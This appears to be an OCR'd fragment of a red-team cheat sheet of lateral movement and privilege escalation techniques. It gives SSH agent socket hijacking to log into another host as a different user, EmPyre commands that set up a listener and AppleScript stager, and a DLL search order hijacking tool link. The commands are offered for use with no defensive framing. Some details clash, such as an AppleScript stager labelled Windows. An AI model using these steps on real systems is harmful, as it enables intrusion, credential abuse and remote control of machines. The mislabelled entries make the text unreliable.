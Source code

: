 Domain: Yes

Local Admin: Yes

OS: Linux

Type: Enumeration & Hunting

Methods:

-   ForwardAgent yes

-   SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh bob\@boston

AppleScript

Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunt

Methods:

-   (EmPyre) \> listeners

-   (EmPyre: listeners) \> set Name mylistener

-   (EmPyre: listeners) \> execute

-   (EmPyre: listeners) \> usestager applescript mylistener

-   (EmPyre: stager/applescript) \> execute

<a name="dll-search-order-hijacking"></a>
# DLL Search Order Hijacking

Domain: No

Local Admin: Yes

OS: Windows

Type: Hijack

Methods:

-   https://github.com/slaeryan/AQUARMOURY/tree/master/Brownie

-   Brownie

<a name="slui-file-handler-hijack-lpe"></a>
# Slui File Handler Hijack LPE

Domain: No

Local Admin: Yes

OS: Windows
